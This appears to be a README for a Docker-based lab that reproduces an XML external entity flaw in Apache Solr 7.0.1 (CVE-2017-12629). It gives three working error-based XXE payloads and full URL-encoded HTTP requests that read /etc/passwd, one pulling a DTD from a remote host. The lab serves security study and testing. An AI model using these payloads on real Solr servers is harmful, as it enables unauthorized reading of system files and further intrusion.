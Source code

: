 # Apache Solr XML External Entity Injection (CVE-2017-12629)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Solr is an open-source search server. It is written in Java and built upon Apache Lucene. Before version 7.1.0, two vulnerabilities were discovered: XML External Entity (XXE) and Remote Command Execution (RCE), both numbered as CVE-2017-12629. These two vulnerabilities can be chained together to form an attack chain.

This environment demonstrates the XXE vulnerability. For the RCE vulnerability and exploitation chain, please refer to [CVE-2017-12629-RCE](../CVE-2017-12629-RCE/).

References:

- <https://www.exploit-db.com/exploits/43009/>
- <https://paper.seebug.org/425/>

## Environment Setup

Execute the following command to start an Apache Solr 7.0.1 server:

```
docker compose up -d
```

After the server starts, you can access the Apache Solr management interface at `http://your-ip:8983/`. No authentication is required.

## Vulnerability Reproduction

Since the response does not include the information we sent in the XML, this is a Blind XXE vulnerability. However, we can use [Error Based XXE](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/) to read files.

To exploit Error Based XXE, we need to find suitable DTD files. Here are several approaches:

### Using fonts.dtd from fontconfig-config

The openjdk Docker image has fontconfig-config installed, which contains a suitable DTD file: `/usr/share/xml/fontconfig/fonts.dtd`.

Construct the XXE payload:

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

Send the request with the encoded payload:

```
GET /solr/demo/select?wt=xml&defType=xmlparser&q=%3C%3Fxml%20version%3D%221%2E0%22%20%3F%3E%0A%3C%21DOCTYPE%20message%20%5B%0A%20%20%20%20%3C%21ENTITY%20%25%20local%5Fdtd%20SYSTEM%20%22file%3A%2F%2F%2Fusr%2Fshare%2Fxml%2Ffontconfig%2Ffonts%2Edtd%22%3E%0A%0A%20%20%20%20%3C%21ENTITY%20%25%20expr%20%27aaa%29%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20file%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20eval%20%22%3C%21ENTITY%20%26%23x26%3B%23x25%3B%20error%20SYSTEM%20%26%23x27%3Bfile%3A%2F%2F%2Fnonexistent%2F%26%23x25%3Bfile%3B%26%23x27%3B%3E%22%3E%0A%20%20%20%20%20%20%20%20%26%23x25%3Beval%3B%0A%20%20%20%20%20%20%20%20%26%23x25%3Berror%3B%0A%20%20%20%20%20%20%20%20%3C%21ELEMENT%20aa%20%28bb%27%3E%0A%0A%20%20%20%20%25local%5Fdtd%3B%0A%5D%3E%0A%3Cmessage%3Eany%20text%3C%2Fmessage%3E HTTP/1.1
Host: localhost.lan:8983
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

![](1.png)

### Using DTD from JAR Files

Since we can't predict what software is installed on the target server in a black-box scenario, using DTD files from internal JAR files is a better approach. For example, we can use LuceneCoreQuery.dtd from the lucene-queryparser.jar that Solr depends on.

Construct the XXE payload:

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "jar:file:///opt/solr/server/solr-webapp/webapp/WEB-INF/lib/lucene-queryparser-7.0.1.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd">

    <!ENTITY % queries 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

Send the request with the encoded payload:

```
GET /solr/demo/select?wt=xml&defType=xmlparser&q=%3C%3Fxml%20version%3D%221%2E0%22%20%3F%3E%0A%3C%21DOCTYPE%20message%20%5B%0A%20%20%20%20%3C%21ENTITY%20%25%20local%5Fdtd%20SYSTEM%20%22jar%3Afile%3A%2F%2F%2Fopt%2Fsolr%2Fserver%2Fsolr%2Dwebapp%2Fwebapp%2FWEB%2DINF%2Flib%2Flucene%2Dqueryparser%2D7%2E0%2E1%2Ejar%21%2Forg%2Fapache%2Flucene%2Fqueryparser%2Fxml%2FLuceneCoreQuery%2Edtd%22%3E%0A%0A%20%20%20%20%3C%21ENTITY%20%25%20queries%20%27aaa%29%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20file%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20eval%20%22%3C%21ENTITY%20%26%23x26%3B%23x25%3B%20error%20SYSTEM%20%26%23x27%3Bfile%3A%2F%2F%2Fnonexistent%2F%26%23x25%3Bfile%3B%26%23x27%3B%3E%22%3E%0A%20%20%20%20%20%20%20%20%26%23x25%3Beval%3B%0A%20%20%20%20%20%20%20%20%26%23x25%3Berror%3B%0A%20%20%20%20%20%20%20%20%3C%21ELEMENT%20aa%20%28bb%27%3E%0A%0A%20%20%20%20%25local%5Fdtd%3B%0A%5D%3E%0A%3Cmessage%3Eany%20text%3C%2Fmessage%3E HTTP/1.1
Host: localhost.lan:8983
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

Successfully read the `/etc/passwd` file:

![](2.png)

### Using Remote DTD Files

If we cannot find suitable local DTD files on the target server and the server can connect to the internet, we can use remote DTD files.

Deploy a DTD file on an HTTP server:

```xml
<!ENTITY % test "example">
<!ELEMENT pattern (%test;)>
```

Then construct the XXE payload:

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "http://evil.host.name/include.dtd">

    <!ENTITY % test 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

Send the request with the encoded payload:

```
GET /solr/demo/select?wt=xml&defType=xmlparser&q=%3C%3Fxml%20version%3D%221%2E0%22%20%3F%3E%0A%3C%21DOCTYPE%20message%20%5B%0A%20%20%20%20%3C%21ENTITY%20%25%20local%5Fdtd%20SYSTEM%20%22https%3A%2F%2Fgist%2Egithubusercontent%2Ecom%2Fphith0n%2F188f03ac0f3c5d899895268f05fd0a51%2Fraw%2F7b481b122622d77c49c619fa047a52051f9652d8%2Finclude%2Edtd%22%3E%0A%0A%20%20%20%20%3C%21ENTITY%20%25%20test%20%27aaa%29%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20file%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20eval%20%22%3C%21ENTITY%20%26%23x26%3B%23x25%3B%20error%20SYSTEM%20%26%23x27%3Bfile%3A%2F%2F%2Fnonexistent%2F%26%23x25%3Bfile%3B%26%23x27%3B%3E%22%3E%0A%20%20%20%20%20%20%20%20%26%23x25%3Beval%3B%0A%20%20%20%20%20%20%20%20%26%23x25%3Berror%3B%0A%20%20%20%20%20%20%20%20%3C%21ELEMENT%20aa%20%28bb%27%3E%0A%0A%20%20%20%20%25local%5Fdtd%3B%0A%5D%3E%0A%3Cmessage%3Eany%20text%3C%2Fmessage%3E HTTP/1.1
Host: localhost.lan:8983
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

Successfully read the `/etc/passwd` file:

![](3.png)
